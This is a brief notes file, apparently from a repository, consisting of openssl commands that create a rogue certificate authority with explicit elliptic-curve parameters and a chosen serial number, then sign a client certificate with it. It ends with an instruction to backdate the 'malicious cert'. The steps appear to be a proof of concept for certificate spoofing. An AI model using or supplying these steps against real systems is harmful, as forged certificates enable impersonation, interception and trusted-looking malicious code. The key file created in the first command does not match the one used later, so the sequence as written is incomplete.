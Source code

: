 # notes
mah...

openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem
openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr
openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf
Set the "Not Before" date earlier than 2018-05-01 in the malicious cert.
